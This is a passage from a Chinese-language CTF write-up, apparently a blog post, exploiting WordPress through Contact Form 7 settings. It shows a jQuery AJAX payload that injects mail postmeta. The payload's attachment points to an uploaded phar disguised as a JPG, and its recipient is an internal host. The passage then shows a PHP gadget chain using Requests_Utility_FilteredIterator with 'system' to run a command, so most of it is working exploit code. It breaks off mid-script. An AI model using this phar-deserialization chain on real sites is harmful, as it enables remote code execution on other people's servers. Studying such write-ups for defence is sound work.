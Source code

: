 ```javascript
        "hidden_post_password": "",
        "hidden_post_visibility": "public",
        "visibility": "public",
        "post_password": "",
        "mm": "12",
        "jj": "22",
        "_thumbnail_id": "-1",
        "advanced_view": "1",
        "comment_status": "open",
        "ping_status": "open",
        "post_name": "",
        "metakeyinput":"mail",
        "metavalue[subject]": "test \"[your-subject]\"",
        "metavalue[sender]": "2",
        "metavalue[recipient]": "ccreater@172.16.8.6:60000",
        "metavalue[body]": "From: [your-name] <[your-email]>\\nSubject: [your-subject]\\n\\nMessage Body:\\n[your-message]\\n\\n-- \\n",
        "metavalue[additional_headers]": "Reply-To: [your-email]",
        "metavalue[attachments]": "phar://./wp-content/uploads/2020/12/phar.jpg",
        "metavalue[use_html]": "false",
        "metavalue[exclude_blank]": "false",
		"metakeyselect":"#NONE#"
        
    }
}
jQuery.ajax(settings).done(function (response) {
    console.log(response);
});
```

在dashboard那里执行这个js

成功写入`mail`:

![image-20201208232404619](https://raw.githubusercontent.com/Explorersss/photo/master/20201208232404.png)



因为没有`_form`属性（上面那个设置postmeta的一次只能设置一个），所以我们要手动提交`jQuery(".wpcf7-form").submit()`，接着就可以读取文件和反序列化了



## 反序列化



```php
<?php

namespace Kigkonsult\Icalcreator{
    class Vtimezone{
        public $timezonetype;
        public $components;
        public function __construct($val)
        {
            $this->components = $val;
        }
    }
}
namespace {

	require( 'wp-load.php' );  //???????
	require_once( dirname( __FILE__ ) . '/wp-includes/Requests/Utility/FilteredIterator.php' );
	$arr  = array(
		"1" => "/readflag>/tmp/2.log"  //payload
	);
	$obj_ = new Requests_Utility_FilteredIterator( $arr, "system" );
```